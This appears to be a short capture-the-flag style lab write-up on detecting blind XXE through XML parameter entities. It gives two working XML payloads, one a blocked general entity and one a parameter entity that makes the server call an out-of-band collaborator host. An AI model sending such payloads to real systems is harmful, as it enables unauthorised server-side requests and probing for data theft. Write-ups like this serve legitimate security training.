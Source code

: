 # Lab: Blind XXE with out-of-band interaction via XML parameter entities
## Description

First, attempted to detect the location of the Blind XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://77cgpbqnvjgmexmj5fiivfpia9gz4o.burpcollaborator.net/"> ]>
<stockCheck>
  <productId>4</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```
Above returned: `"Entities are not allowed for security reasons"`

## Solution
To bypass the block of entities, I stored the entitry in an XML parameter instead:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://6u1fcadmii3l1w9ise5hiechx83zro.burpcollaborator.net"> %xxe; ]>
<stockCheck>
  <productId>4</productId>
  <storeId>%xxe;</storeId>
</stockCheck>
```
Above returned: `"Parsing error"` but successfully triggered a request to the collaboration server. We now have our blind XXE.
